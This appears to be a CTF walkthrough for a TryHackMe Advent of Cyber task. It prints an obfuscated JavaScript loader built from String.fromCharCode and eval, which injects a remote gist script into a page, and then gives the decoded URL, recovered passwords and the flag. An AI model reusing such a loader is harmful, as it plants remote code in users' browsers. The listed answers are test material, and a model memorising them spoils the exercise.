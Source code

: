 ```NOTES_FROM_ELF_SECURITY_TEAM_IN_RECYCLE_BIN 
eval(String.fromCharCode(118, 97, 114, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 116, 121, 112, 101, 32, 61, 32, 39, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 39, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 97, 115, 121, 110, 99, 32, 61, 32, 116, 114, 117, 101, 59, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 115, 114, 99, 32, 61, 32, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 49, 48, 52, 44, 32, 49, 48, 52, 44, 32, 49, 49, 54, 44, 32, 49, 49, 54, 44, 32, 49, 49, 50, 44, 32, 49, 49, 53, 44, 32, 53, 56, 44, 32, 52, 55, 44, 32, 52, 55, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 53, 44, 32, 49, 49, 54, 44, 32, 52, 54, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 54, 44, 32, 49, 48, 52, 44, 32, 49, 49, 55, 44, 32, 57, 56, 44, 32, 52, 54, 44, 32, 57, 57, 44, 32, 49, 49, 49, 44, 32, 49, 48, 57, 44, 32, 52, 55, 44, 32, 49, 48, 52, 44, 32, 49, 48, 49, 44, 32, 57, 55, 44, 32, 49, 49, 56, 44, 32, 49, 48, 49, 44, 32, 49, 49, 48, 44, 32, 49, 49, 52, 44, 32, 57, 55, 44, 32, 49, 48, 53, 44, 32, 49, 50, 50, 44, 32, 57, 55, 44, 32, 52, 55, 41, 59, 32, 32, 32, 118, 97, 114, 32, 97, 108, 108, 115, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 118, 97, 114, 32, 110, 116, 51, 32, 61, 32, 116, 114, 117, 101, 59, 32, 102, 111, 114, 32, 40, 32, 118, 97, 114, 32, 105, 32, 61, 32, 97, 108, 108, 115, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 45, 45, 59, 41, 32, 123, 32, 105, 102, 32, 40, 97, 108, 108, 115, 91, 105, 93, 46, 115, 114, 99, 46, 105, 110, 100, 101, 120, 79, 102, 40, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 52, 57, 44, 32, 52, 57, 44, 32, 49, 48, 48, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 52, 57, 44, 32, 53, 48, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 57, 57, 44, 32, 53, 50, 44, 32, 49, 48, 48, 44, 32, 53, 52, 44, 32, 53, 52, 44, 32, 53, 53, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 53, 52, 44, 32, 49, 48, 48, 44, 32, 57, 56, 44, 32, 49, 48, 50, 44, 32, 49, 48, 48, 44, 32, 53, 55, 44, 32, 57, 55, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 53, 55, 44, 32, 53, 54, 44, 32, 57, 55, 44, 32, 53, 54, 44, 32, 53, 54, 44, 32, 57, 56, 44, 32, 53, 54, 41, 41, 32, 62, 32, 45, 49, 41, 32, 123, 32, 110, 116, 51, 32, 61, 32, 102, 97, 108, 115, 101, 59, 125, 32, 125, 32, 105, 102, 40, 110, 116, 51, 32, 61, 61, 32, 116, 114, 117, 101, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 101, 97, 100, 34, 41, 91, 48, 93, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 41, 59, 32, 125));

DECODED RESULTS :
.https://gist.github.com/heavenraiza/1d321244c4d667446dbfd9a3298a88b8
```

>>FLAG IN THAT URL.
```
cyberelf
THM{657012dcf3d1318dca0ed864f0e70535}
```

----

# ANSWER THE FOLLOWING :
----

What is the password to the KeePass database?
>>thegrinchwashere

What is the encoding method listed as the 'Matching ops'?
>>Base64

What is the decoded password value of the Elf Server?
>>sn0wM4n!

What is the decoded password value for ElfMail?
>>ic3Skating!

Decode the last encoded value. What is the flag?
>>THM{657012dcf3d1318dca0ed864f0e70535}

----